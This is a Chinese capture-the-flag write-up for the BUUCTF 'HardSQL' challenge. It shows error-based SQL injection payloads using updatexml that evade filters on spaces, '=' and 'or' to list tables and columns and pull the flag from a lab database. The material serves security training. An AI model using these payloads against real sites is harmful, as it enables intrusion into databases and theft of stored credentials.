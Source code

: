 # [[极客大挑战 2019]HardSQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)



## 0x00先判断闭合



```sql
http://xxx.cn:81/check.php?username=admin&password=admin%27
```



结果为

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''admin''' at line 1
```



存在" ' "闭合



## 0x01进行注入



```sql
http://xxx.cn:81/check.php?username=admin&password=admin' order by 1%23
```



发现被过滤



经测试：and、or、空格、=、等都被过滤了（建议直接抓包使用fuzz跑）



空格和“=”用不了，所以我们要使用（）来代替空格，使用like来代替”=“ ，^  等同于 and  



## 0x02使用报错注入extractvalue、updatexml函数



这里使用updatexml函数，查询四件套



```sql
http://xxx.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(database())),'~'),1)%23


~的ASCII码值就是0x7e
```



结果为



```sql
XPATH syntax error: '~geek~'
```



## 0x03继续使用updatexml函数查询表名，字段等



```sql
http://xxx.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),'~'),1)%23
```



结果为



```sql
XPATH syntax error: '~H4rDsq1~'
```



继续查找H4rDsq1表下的内容



```sql
http://xxx.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),'~'),1)%23
```



结果为



```sql
XPATH syntax error: '~id,username,password~'
```



查找password字段下的内容



```sql
http://xxx.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(password)from(H4rDsq1)),'~'),1)%23
```



找到一半flag



```sql
XPATH syntax error: '~flag{6de4f947-feea-4f48-af1e-b1'
```



## 0x04找另一半，从右往左截取



```sql
http://xxx.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(right((password),30))from(H4rDsq1)),'~'),1)%23
```



找到另一半flag



```sql
XPATH syntax error: '~7-feea-4f48-af1e-b1e92a5d9227}~'
```



将2个拼接得到完整flag



flag{6de4f947-feea-4f48-af1e-b1e92a5d9227}



## 0x05补充



wp参考[BUUCTF-Web_第一页_WP总结笔记](https://blog.aabyss.cn/post-130.html)



[XPath 语法](https://www.w3school.com.cn/xpath/xpath_syntax.asp)



[SQL server中截取字符串的常用函数--LEFT()、RIGHT()、SUBSTRING()](https://blog.csdn.net/lanxingbudui/article/details/87979290)



[学习基于extractvalue()和updatexml()的报错注入](https://blog.csdn.net/zpy1998zpy/article/details/80631036?spm=a2c6h.12873639.0.0.1f1b78cek8ZUwJ)



[sql报错注入：extractvalue、updatexml报错原理](https://developer.aliyun.com/article/692723#slide-2)





作者

SihUi
